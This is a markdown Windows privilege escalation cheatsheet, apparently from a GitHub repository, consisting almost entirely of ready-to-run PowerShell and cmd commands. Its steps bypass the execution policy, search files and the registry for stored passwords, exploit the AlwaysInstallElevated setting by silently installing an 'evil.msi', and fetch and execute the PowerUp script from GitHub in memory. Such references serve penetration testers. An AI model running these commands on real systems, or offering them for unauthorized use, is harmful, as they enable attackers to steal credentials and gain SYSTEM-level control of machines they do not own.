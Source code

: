 # Windows Privilege Escalation Cheatsheet

## Powershell workarounds

### Powershell information

```powershell
echo $Env:PSModulePath
Get-ExecutionPolicy
```

### Bypass powershell execution policy

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

### Download a file

```powershell
Invoke-WebRequest http://url-to/file -OutFile C:\path\to\file
```

## Information gathering

### Processes and owners

```powershell
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

### Processes running as system

```powershell
tasklist /v /fi "username eq system"
```

### Windows Defender status

```powershell
Get-MpComputerStatus
```

### Search for passwords in filesystem

```powershell
findstr /si password *.xml *.ini *.txt *.config
reg query HKLM /f password /t REG_SZ /s /k
reg query HKCU /f password /t REG_SZ /s /k
```

## Perform an escalation

### MSI register

```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
```

#### If both return 1, then get an evil.msi and:

```powershell
msiexec /quiet /qn /i evil.msi
```

## Popular tools

### PowerUp

```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```

